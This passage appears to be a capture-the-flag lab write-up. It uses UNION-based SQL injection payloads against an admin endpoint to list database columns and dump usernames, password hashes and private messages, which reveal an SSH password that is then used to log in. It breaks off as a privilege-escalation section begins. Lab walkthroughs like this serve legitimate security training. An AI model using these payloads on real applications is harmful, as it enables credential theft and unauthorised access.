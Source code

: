     ![sqli-5](sqli-5.png)

4. There are 3 tables: `items`, `messages`, and `users`. The latter seems the most useful, as it could contain sensitive data, such as passwords, so let's find out its columns:

    ```sql
    admin?user=0 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns where table_name='users'--
    ```

    ![sqli-6](sqli-6.png)

    Bingo 👌! We can see that the `users` table contains a `password` field 😈, among others.

5. Now we know the column names, we can see all the data of the `users` table:

    ```sql
    admin?user=0 UNION SELECT group_concat(id, ':', username, ':', password, ':', isAdministrator, '\n'),2,3,4 FROM marketplace.users; --
    ```

    ![sqli-7](sqli-7.png)

6. We see that the passwords are not stored in plaintext format, as it is usual the case. Let's also check the `messages` table we found earlier, starting with its columns:

    ```sql
    admin?user=0 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='messages';--
    ```

    ![sqli-8](sqli-8.png)

7. Now, let's see its full data:

    ```sql
    admin?user=0 UNION SELECT group_concat(id, ':', message_content, ':', user_from, ':', user_to, ':', is_read, '\n'),2,3,4 FROM marketplace.messages;--
    ```

    ![sqli-9](sqli-9.png)

There is a message revealing a new **SSH** password 🔒! We know that this password belongs to user `jake`, as the fourth value corresponds to the `user_to` field: `Your new password is: @b_ENXkGYUCAv3zJ:1:3:1`, thus, user `3`. 

### 3.3 Sudo & Wildcard Injection

We now have some **SSH credentials** and our goal is to find `user.txt`. Let's keep things simple and start by connecting to the SSH server:

```bash
# logging in as user "jake" on the default SSH port
ssh jake@TARGET_IP
```
Once we are logged in, let's just search for the file:
